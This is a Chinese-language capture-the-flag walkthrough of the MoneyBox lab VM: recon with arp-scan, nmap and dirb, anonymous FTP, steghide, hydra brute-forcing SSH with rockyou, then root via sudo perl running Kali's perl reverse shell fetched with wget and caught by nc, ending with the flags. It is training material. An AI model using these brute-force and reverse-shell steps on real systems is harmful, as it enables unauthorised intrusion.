



moneybox解析
注1:由于我没有解决加载问题 因此没有魔法网络的用户很有可能无法顺利看到图片 烦请根据文字自己判断一下步骤结果 谢谢
注2:该教程使用的环境是我的个人pc 实战操作可能由于系统原因 vmware配置 虚拟机版本等出现细微的不同 希望各位随机应变勇闯难关
1.关于事先配置
安装了vmware的pc一台
kali 下载页面
还有我们的主角 moneybox 下载页面
在vmware中打开虚拟机 选择kali和moneybox并安装
为了方便后续的步骤记得在虚拟机设置-网络适配器中将两个虚拟机都设置为NAT模式
这样你就完成了基础的配置
2.具体步骤
（1）moneybox的启动
在启动时立马按e编辑启动项

↑在启动项中 linux 开头这行将 ro 改成 rw single init=bin/bash
随后按 ctrl+x 保存
可以通过进入单用户模式的方式修改密码
输入passwd root 将密码更改成任意你所希望的样子
这之后重启 输入账号root 与 你更改的密码
进入后输入 dhclient 配置网络接口
↑示例
随后一直挂着moneybox就可以了 转到kali这边
（2）kali部分的操作
（2.1）找到靶机所处的网段
kali打开 默认账号密码是kali/kali
先 sudo arp-scan -l 扫描一下同网段设备
不太确定哪个是靶机 是吧
先用nmap -p- 192.168.246.0/24扫描一下这些ip开放的端口
结果说192.168.246.129开放了仨端口 分别是21 22 80
可以确定是靶机了
接下来就会围绕这个ip展开操作
（2.2）三个端口所引导的线索
首先是 21端口 对应的 ftp功能
使用ftp+ip的方式尝试远程登陆
发现需要密码 回车后显示530 This FTP server is anonymous only.
既然仅限匿名登录 那就以anonymous为账号 密码为空来登陆
登录完毕 ls查看目录下文件
有一张名为trytofind.jpg的图片 用get+文件名的方式获取
随后用exit退出ftp
steghide+info+图片文件名寻找是否有图片隐写 发现需要密码 线索暂时断了
ps:关于显示steghide未安装 随后无法安装显示E:Unable to locate package的解决方式
第一步：打开sources.list文件
1 | sudo vim /etc/apt/sources.list |
第二步：在文件中添加以下内容
1 | deb http://http.kali.org/kali kali-rolling main contrib non-free |
然后保存退出，再进行更新
1 | sudo apt-get update |
————————————————
版权声明：上面这段说明为CSDN博主「聂大哥」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/weixin_43729943/article/details/104221462
22端口所对应的ssh功能通常需要账号密码 目前没有线索 我们先转到http上去寻找
打开firefox 我们输入ip地址192.168.246.129
进入主页
我们f12查看一下源码
发现啥也没藏
于是使用我们的工具
dirb+网址来寻找是否有潜在的目录
↑运行结果发现了名为http://192.168.246.129/blogs/index.html的目录
进入网址
还是老样子f12查看源码 发现注释里藏了点东西
它说是提示在这个目录里 那就进入http://192.168.246.129/S3cr3t-T3xt/
还是在源码里藏了东西
发现了一段Secret Key 保存下来备用
我们猜测这段密文和steghide中的密码相对应 尝试输入
提取出了data.txt
其中内容为暗示一个名为renu的用户的密码强度很弱
或许可以使用密码爆破来获得密码
于是我们可以利用kali自带的密码爆破字典与hydra来爆破
rockyou.txt被压缩，需要解压才能够使用
1 | gzip -d /usr/share/wordlists/rockyou.txt.gz #-d 将压缩文件解压 |
hydra使用方法:
1 | hydra -l 用户名 -P 密码字典 协议://ip地址 |

↑试出来的结果是密码为987654321
(2.3)ssh连接与操作
使用ssh+账号@ip:端口来链接renu
输入密码 链接成功
输入ls来查看文件 有一个txt
↑cat user1.txt获得第一个flag
第二个flag在于这个电脑所留下的操作历史
里面有免密登陆一个叫lily的用户的过程
说明此用户已经将自己的公钥拷贝到了靶机系统上的lily用户家目录的authorized_keys文件，从而可以不用密码就以lily身份登录到靶机上。
第二个flag也获得了
第三个flag多半是在root账号中
但sudo的权限也无法查看
这里就要用到一些高级操作
我这里直接引用课上的讲义了
执行sudo -l发现该用户存在sudo赋权，程序为/usr/bin/perl，perl同python类似，也是一门解释型语言，推测靶机应该有perl运行环境。下面是如何通过Perl程序提权的实现过程。
思路：kali中自带perl脚本反弹shell，将其略加修改拷贝到靶机上；该脚本需要在渗透机监听一个端口(默认为1234)，然后在靶机上运行perl脚本，靶机会自动反弹一个shell到渗透机，从而通过运行perl程序获得一个管理员的Shell。
- 定位kali中的perl脚本反弹shell，将其拷贝到kali的/var/www/html下，重命名为p.php；
1
2
3
4cd /usr/share/webshells/perl
sudo cp perl-reverse-shell.pl /var/www/html/p.php
cd /var/www/html
ls - 修改p.php文件内容，将反弹连接的Ip地址改为kali的IP；
1
sudo vim p.php //把my $ip这段单引号里面的ip改成kali的

- 开启kali的网站服务
1
systemctl start apache2

- 切换到靶机lily会话，通过http协议下载p.php
1
wget http://ip/p.php //不知道ip的可以在另个窗口ifconfig查看
- kali 通过nc命令监听1234端口
1
nc -lnvp 1234
- 靶机上通过sudo 运行p.php程序
1
sudo /usr/bin/perl p.php

- 切换到渗透机kali，成功反弹管理员权限shell
1
2
3
4id
cd /root
ls -a
cat .root.txt
- 拿到最终flag啦！
1
2
3
4
5
6
7
8Congratulations.......!
You Successfully completed MoneyBox
Finally The Root Flag
==> r00t{H4ckth3p14n3t}
I'm Kirthik-KarvendhanT
It's My First CTF Box
instagram : \_\_\_\_kirthik\_\_\_\_
See You Back....
3.总结
前两个flag较为简易 最后一个flag要花点力气
希望今后的学习能让我更透彻的理解渗透测试的奥妙
那么 下次再见！